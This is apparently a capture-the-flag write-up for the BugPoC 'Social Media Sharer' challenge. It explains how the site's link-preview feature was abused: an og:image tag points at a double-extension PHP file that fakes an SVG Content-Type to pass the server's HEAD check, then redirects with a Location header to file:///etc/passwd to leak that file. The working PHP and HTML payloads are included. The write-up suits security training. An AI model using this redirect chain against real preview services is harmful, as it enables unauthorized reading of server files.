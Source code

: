 # BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  ![Social media sharer](1.png)
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it in **imgData** .

 ![og:mage](2.png)

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, :boom: It worked and  we leaked the etc/passwd

![etc/passwd](3.png)





Thanks for Reading :innocent:

